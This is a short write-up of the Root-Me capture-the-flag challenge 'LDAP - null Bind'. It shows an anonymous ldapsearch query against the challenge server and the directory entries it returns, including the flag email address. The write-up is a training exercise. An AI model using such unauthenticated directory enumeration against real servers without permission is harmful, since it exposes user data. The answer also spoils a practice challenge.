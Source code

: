 ```yaml
---
title: LDAP - null Bind
date: '2022-08-31'
tags: ['ftp', 'root-me', 'writeups','network']
draft: false
summary: Writeup of LDAP - null Bind file challenges.
---
```


# Option 1: ldapadmin

![image](https://user-images.githubusercontent.com/61643034/187846896-7d000d04-4ef4-4bab-b3d7-a45d2699eea6.png)



# Option2
The Challenge’s title reveals we’ll be using LDAP Null Bind to solve it.
The information also reveals that we might be looking for someone for the anonymous OU.

On a Unix system, use ldapsearch to perform a query against the LDAP server.

Using the following command, we’ll retrieve the info we need:

 -x = Simple authentication
 -b = base dn for search
 -H = LDAP Uniform Resource Identifier(s) You could also use -h and -p for this

```ldapsearch -x -b "ou=anonymous,dc=challenge01,dc=root-me,dc=org" -H "ldap://challenge01.root-me.org:54013"```

The result of this command is:
```
# extended LDIF
#
# LDAPv3
# base <ou=anonymous,dc=challenge01,dc=root-me,dc=org> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# anonymous, challenge01.root-me.org
dn: ou=anonymous,dc=challenge01,dc=root-me,dc=org
objectClass: organizationalUnit
ou: anonymous

# sabu, anonymous, challenge01.root-me.org
dn: uid=sabu,ou=anonymous,dc=challenge01,dc=root-me,dc=org
objectClass: inetOrgPerson
objectClass: shadowAccount
uid: sabu
sn: sabu
cn: sabu
givenName: sabu
mail: sabu@anonops.org

# search result
search: 2
result: 0 Success
```
 numResponses: 3
 
 numEntries: 2
 
As such revealing the email address we’re looking for: ```sabu@anonops.org```
